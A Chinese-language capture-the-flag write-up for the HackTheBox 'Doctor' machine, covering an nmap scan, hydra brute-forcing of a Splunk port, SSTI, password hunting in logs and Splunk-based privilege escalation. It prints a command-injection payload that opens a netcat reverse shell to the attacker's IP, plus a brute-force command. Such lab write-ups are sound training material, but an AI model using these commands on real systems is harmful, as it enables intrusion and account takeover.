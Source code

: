 kali 10.10.14.5

靶机 10.10.10.209



```bash
└─# nmap  -sV -sC -O  $IP -oA nmap.txt -p `nmap -sS -sU -PN -p- $IP --min-rate=8888 | grep '/tcp\|/udp' | awk -F '/' '{print $1}' | sort -u | tr '\n' ','`
```

```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 594d4ec2d8cfda9da8c8d0fd99a84617 (RSA)
|   256 7ff3dcfb2dafcbff9934ace0f8001e47 (ECDSA)
|_  256 530e966b9ce9c1a170516c2dce7b43e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized
Running (JUST GUESSING): Linux 5.X|4.X|2.6.X (98%), Crestron 2-Series (90%)
OS CPE: cpe:/o:linux:linux_kernel:5.0 cpe:/o:linux:linux_kernel:4 cpe:/o:crestron:2_series cpe:/o:linux:linux_kernel:2.6.32
Aggressive OS guesses: Linux 5.0 (98%), Linux 4.15 - 5.6 (90%), Linux 5.0 - 5.3 (90%), Crestron XPanel control system (90%), Linux 5.0 - 5.4 (90%), Linux 2.6.32 (90%), Linux 5.4 (89%), Linux 5.3 - 5.4 (88%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

一看端口，大概率 web 打点



<img src=".\图片\Snipaste_2023-09-23_12-28-13.png" alt="Snipaste_2023-09-23_12-28-13" style="zoom:80%;" />



<img src=".\图片\Snipaste_2023-09-23_12-28-28.png" alt="Snipaste_2023-09-23_12-28-28" style="zoom:80%;" />



```bash
echo '10.10.10.209 doctors.htb' >> /etc/hosts
```



<img src=".\图片\Snipaste_2023-09-23_12-34-23.png" alt="Snipaste_2023-09-23_12-34-23" style="zoom:67%;" />





找到了 splunkd cms 的 已知账号密码的利用

```
https://github.com/cnotin/SplunkWhisperer2/
https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/
```



```bash
└─# cewl http://10.10.10.209 -w cewl.list
```



```bash
└─# hydra -l admin -P /usr/share/wordlists/rockyou.txt -f 10.10.10.209 -s 8089 https-get /services
```



创建账号登录

<img src=".\图片\Snipaste_2023-09-23_13-38-53.png" alt="Snipaste_2023-09-23_13-38-53" style="zoom:80%;" />

发现是 python 服务器



存在 ssti 模板注入，可直接找 payload 

```http
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-popen-without-guessing-the-offset
```

```http
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python
```



也可以尝试命令注入

<img src=".\图片\image-20201101100239532.webp" alt="image-20201101100239532" style="zoom:80%;" />

```bash
http://10.10.14.6/$(nc.traditional$IFS-e$IFS'/bin/bash'$IFS'10.10.14.6'$IFS'443')
```



再到 web 日志里找到一个修改的密码

```bash
grep -r passw . 2>/dev/null 
```



再利用之前的 cms 提权到 root ，凭据 是 日志里发现的密码

```
git clone https://github.com/cnotin/SplunkWhisperer2.git
```




